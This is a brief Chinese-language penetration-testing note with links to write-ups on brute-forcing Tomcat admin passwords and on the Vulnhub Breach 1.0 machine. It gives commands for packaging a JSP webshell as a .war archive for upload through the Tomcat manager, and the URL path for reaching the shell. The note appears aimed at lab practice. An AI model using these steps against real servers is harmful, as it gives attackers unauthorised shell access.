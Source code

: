 [干货 | Tomcat弱口令爆破+War包部署Getshell靶场实战](https://mp.weixin.qq.com/s/THmJK56SIeWoJZrq3Aowiw)
[Done | vulnhub |1-Breach1.0（端口、cms、sql注入、keystore,keytool,ssl证书解密pcap,tomcat后台shell、nc反弹）, tomcat证书问题用burp代理访问](https://mp.weixin.qq.com/s/iYsRfk1Bi_lOumc4L-V_4g) [1](https://www.cnblogs.com/zhuxr/p/9848230.html)

### Exploit/CVE/实战漏洞/Tomcat后台get shell
jsp马打成 .zip 改为 .war
```shell
zip -r shell.zip shell.jsp
cp shell.zip shell.war
```
上传后 地址为 /shell 则访问 /shell/shell.jsp
